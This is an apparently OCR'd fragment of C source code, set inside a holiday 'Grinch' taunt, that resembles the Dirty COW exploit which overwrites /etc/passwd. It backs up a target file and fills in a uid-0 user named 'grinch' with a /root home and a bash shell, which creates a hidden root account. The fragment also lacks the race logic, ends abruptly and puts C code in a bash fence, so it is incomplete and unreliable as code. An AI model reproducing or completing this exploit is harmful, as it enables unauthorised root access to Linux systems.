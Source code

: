 ```bash
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "grinch";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

}

/*************************************************
// HAHA! Too bad Santa! I, the Grinch, got here 
// before you did! I helped myself to some of
// the goodies here, but you can still enjoy
// some half eaten cookies and this leftover
// milk! Why dont you try and refill it yourself!
//   - Yours Truly,
```